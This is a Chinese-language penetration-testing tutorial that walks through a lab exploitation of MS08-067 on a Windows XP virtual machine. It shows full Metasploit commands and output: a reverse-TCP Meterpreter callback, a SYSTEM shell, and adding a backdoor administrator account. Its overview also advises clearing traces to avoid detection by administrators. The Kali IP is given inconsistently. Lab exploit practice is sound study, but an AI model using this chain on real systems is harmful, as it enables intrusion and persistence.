


# 渗透测试基础

## 渗透测试概述

渗透测试是一种安全评估方法，通过模拟黑客攻击的方式来发现网络设备和应用的安全漏洞。渗透测试通常分为 **白盒测试** 和 **黑盒测试** 。白盒测试是在了解目标系统内部结构的情况下进行的测试，而黑盒测试则是在几乎不了解目标系统的情况下进行的测试，类似于真实的黑客攻击。

渗透测试的基本步骤：

1. 确定目标：首先明确渗透测试的目标，这可能是一个网站、网络服务、应用程序或服务器等。

2. 信息收集：这是渗透测试中至关重要的一步。通过收集目标的相关信息，如IP地址、域名、开放的端口、运行的服务、系统版本等，可以为后续的攻击提供依据。

3. 漏洞探测：利用收集到的信息，使用各种工具和技术来探测目标系统的潜在漏洞。常见的漏洞包括SQL注入、XSS跨站脚本、CSRF跨站请求伪造、文件上传漏洞等。

4. 漏洞利用：在发现漏洞后，尝试利用这些漏洞获取目标系统的更高权限或敏感信息。这可能涉及到使用特定的漏洞利用工具或编写自定义的攻击代码。

5. 内网转发：如果渗透测试的目标是内网系统，可能需要进行内网转发，以便从外部访问内网资源。

6. 内网渗透：在获取了外网服务器的权限后，尝试进一步渗透内网，寻找更多的敏感信息或攻击目标。

7. 痕迹清除：在完成渗透测试后，应尽量清除留下的痕迹，以避免被系统管理员发现。

8. 撰写渗透测试报告：最后，需要撰写一份详细的渗透测试报告，指出发现的漏洞、攻击过程以及修补建议，帮助客户提高系统的安全性。

渗透测试的工具和技术

在渗透测试过程中，会使用到各种工具和技术。例如，Nessus和nmap用于主机和端口扫描，AWVS、AppScan、OWASP-ZAP用于网站漏洞扫描，Sqlmap用于SQL注入攻击，Beef-XSS用于XSS攻击，以及Metasploit Framework等用于漏洞利用和提权。

渗透测试不仅仅是技术操作，还需要对业务逻辑有深入的理解，并能提供有效的安全解决方案。渗透测试的目的是帮助建立一个更安全的网络环境，而不是用于非法活动。在进行渗透测试之前，必须获得目标系统所有者的授权。

渗透测试的标准: [PTES](https://www.freebuf.com/articles/web/202774.html)

## 主机攻防演练

### MS08-067[RPC]

#### 漏洞描述

Microsoft Windows Server服务RPC请求缓冲区溢出漏洞。Windows的Server服务在处理特质RPC请求时存在缓冲区溢出漏洞，远程攻击者可以通过发送恶意的RPC请求触发这个溢出，导致完全入侵用户系统，SYSTEM权限执行任意指令。 对于Windows 2000、XP和Server 2003，无需认证便可以利用该漏洞；对于Windows Vista和Server 2008，可能需要认证。

#### 靶机搭建

在VMware虚拟机创建一个kali（攻击机）和一个winxp虚拟机（靶机）。可以参考[winxp设置](../appendix/install_win.md)

两个虚拟机均采用NAT网络模式，确保两机可以互相`ping`通。

本实验两机的ip为：

kali: `196.168.69.128`

winxp: `196.168.69.130`

#### `nmap`扫描主机

```sh
┌──(kali㉿kali)-[~]
└─$ nmap -F 192.168.69.130    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-29 06:40 EST
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.06 seconds
                                                                                                                                                                                                        
┌──(kali㉿kali)-[~]
└─$ nmap -F -Pn 192.168.69.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-29 06:40 EST
Nmap scan report for 192.168.69.130
Host is up (0.00093s latency).
Not shown: 98 filtered tcp ports (no-response)
PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 15.05 seconds
```

目标端口 `445`

服务 `microsoft-ds`

#### 使用`msfconsole`进行渗透

1. 先启动`msfconsole`寻找`ms08-067`相关的攻击模块。

```sh
┌──(kali㉿kali)-[~]
└─$ msfconsole
Metasploit tip: Use sessions -1 to interact with the last opened session
Metasploit Documentation: https://docs.metasploit.com/

msf6 > search ms08-067

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/ms08_067_netapi
```

2. 这里只有一个可用的`exploit`模块，`use`它

```sh
msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms08_067_netapi) > 
```

3. 然后`show targets`查看并设置目标主机的类型（本实验使用的靶机为`Windows XP SP3 Chinese - Simplified`）

```sh
msf6 exploit(windows/smb/ms08_067_netapi) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
        / ignore some outputs. /
    31  Windows XP SP2 Turkish (NX)
    32  Windows XP SP3 Arabic (NX)
    33  Windows XP SP3 Chinese - Traditional / Taiwan (NX)
    34  Windows XP SP3 Chinese - Simplified (NX)
    35  Windows XP SP3 Chinese - Traditional (NX)
        / ignore some outputs. /

msf6 exploit(windows/smb/ms08_067_netapi) > set target 34
target => 34
```

4. 然后用`show options`查看还需要设置哪些参数，这里把`rhosts`设置为目标主机ip即可。

```sh
msf6 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.69.128   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   34  Windows XP SP3 Chinese - Simplified (NX)


View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms08_067_netapi) > set rhosts 192.168.69.130
rhosts => 192.168.69.130
```

5. 用`show payloads`查看有哪些可用的`payload`，这里使用62号

```sh
msf6 exploit(windows/smb/ms08_067_netapi) > show payloads

Compatible Payloads
===================

   #    Name                                                        Disclosure Date  Rank    Check  Description
   -    ----                                                        ---------------  ----    -----  -----------
        / ignore some outputs. /
   61   payload/windows/meterpreter/reverse_ord_tcp                                  normal  No     Windows Meterpreter (Reflective Injection), Reverse Ordinal TCP Stager (No NX or Win7)
   62   payload/windows/meterpreter/reverse_tcp                                      normal  No     Windows Meterpreter (Reflective Injection), Reverse TCP Stager
   63   payload/windows/meterpreter/reverse_tcp_allports                             normal  No     Windows Meterpreter (Reflective Injection), Reverse All-Port TCP Stager
        / ignore some outputs. /

msf6 exploit(windows/smb/ms08_067_netapi) > set payload payload/windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
```

6. 再次`show options`确认所有参数已设置后用`run`命令进行渗透，如下显示即为渗透成功。

```sh
msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 192.168.69.128:4444 
[*] 192.168.69.130:445 - Attempting to trigger the vulnerability...
[*] Sending stage (176198 bytes) to 192.168.69.130
[*] Meterpreter session 1 opened (192.168.69.128:4444 -> 192.168.69.130:1163) at 2024-12-29 07:10:57 -0500

meterpreter > 
```

#### 渗透后利用

1. 查看权限

```sh
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

可以看到获得了system权限。

2. shell

```sh
meterpreter > shell
Process 1204 created.
Channel 1 created.
Microsoft Windows XP [�汾 5.1.2600]
(C) ��Ȩ���� 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter ��������:

        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.69.130
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.69.2

C:\WINDOWS\system32>exit
exit
meterpreter > 
```

成功进入靶机的shell

3. 截图

```sh
meterpreter > screenshot
Screenshot saved to: /home/kali/zyYiUoId.jpeg
```

4. 添加账号并把账号添加到管理员组

```sh
meterpreter > shell
Process 1104 created.
Channel 2 created.
Microsoft Windows XP [�汾 5.1.2600]
(C) ��Ȩ���� 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>net user hacker pwd /add
net user hacker pwd /add
�����ɹ����ɡ�


C:\WINDOWS\system32>net localgroup administrators hacker /add
net localgroup administrators hacker /add
�����ɹ����ɡ�
```

回到靶机查看可以发现多了一个`hacker`账号。





---

## 参考

- [1] [渗透测试-[windows-MS08-067、MS10-046、MS17-010、MS12-020]](https://blog.csdn.net/m0_43405474/article/details/124589790)

- [2] [ms08-067漏洞复现](https://blog.csdn.net/weixin_43901998/article/details/108490618)

